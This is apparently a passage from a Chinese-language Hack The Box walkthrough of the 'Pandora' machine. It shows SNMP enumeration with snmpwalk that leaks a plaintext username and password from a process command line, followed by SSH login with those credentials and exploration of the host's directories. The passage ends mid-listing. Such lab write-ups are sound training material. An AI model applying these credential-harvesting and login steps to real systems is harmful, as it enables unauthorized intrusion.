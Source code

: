 ## Snmpwalk

+ 使用Snmpwalk进行枚举：

  ```
  snmp-check 10.10.11.136
  ┌──(kali㉿kali)-[~/桌面/HTB/Pandora]
  └─$ snmpwalk -v 2c -c public 10.10.11.136
  ···
  iso.3.6.1.2.1.25.4.2.1.5.854 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
  ···
  iso.3.6.1.2.1.25.4.2.1.5.1114 = STRING: "-u daniel -p HotelBabylon23"
  ```

  + `daniel`猜测为账号，`HotelBabylon23`猜测为密码

## SSH

+ 结合TCP scan 结果，可使用上述凭证尝试登录SSH：

  ```
  ┌──(kali㉿kali)-[~/桌面/HTB/Pandora]
  └─$ ssh daniel@10.10.11.136
  daniel@10.10.11.136's password: 
  ···
  daniel@pandora:~$ pwd
  /home/daniel
  daniel@pandora:~$ cd ..
  /home
  daniel@pandora:/home$ ls -al
  total 16
  drwxr-xr-x  4 root   root   4096 Dec  7  2021 .
  drwxr-xr-x 18 root   root   4096 Dec  7  2021 ..
  drwxr-xr-x  4 daniel daniel 4096 Jan 29 14:59 daniel
  drwxr-xr-x  2 matt   matt   4096 Dec  7  2021 matt
  daniel@pandora:/home/matt$ ls
  user.txt
  daniel@pandora:/home/matt$ cat user.txt
  cat: user.txt: Permission denied
  ```

+ 查找网站目录相关信息:
 
  ```
  daniel@pandora:/var$ ls -al
  total 56
  drwxr-xr-x 14 root root   4096 Dec  7  2021 .
  drwxr-xr-x 18 root root   4096 Dec  7  2021 ..
  drwx------  2 root root   4096 Jan 29 14:42 agentx
  drwxr-xr-x  2 root root   4096 Jan  3  2022 backups
  drwxr-xr-x 15 root root   4096 Dec  7  2021 cache
  drwxrwxrwt  2 root root   4096 Dec  7  2021 crash
  drwxr-xr-x 44 root root   4096 Jan  3  2022 lib
  drwxrwsr-x  2 root staff  4096 Dec  7  2021 local
  lrwxrwxrwx  1 root root      9 Feb  1  2021 lock -> /run/lock
  drwxrwxr-x 12 root syslog 4096 Jan 29 14:42 log
  drwxrwsr-x  2 root mail   4096 Dec  7  2021 mail
  drwxr-xr-x  2 root root   4096 Dec  7  2021 opt
  lrwxrwxrwx  1 root root      4 Feb  1  2021 run -> /run
  drwxr-xr-x  4 root root   4096 Dec  7  2021 spool
  drwxrwxrwt  6 root root   4096 Jan 29 15:09 tmp
  drwxr-xr-x  4 root root   4096 Dec  7  2021 www
  daniel@pandora:/var$ cd www
  daniel@pandora:/var/www$ ls -al
  total 16
  ```
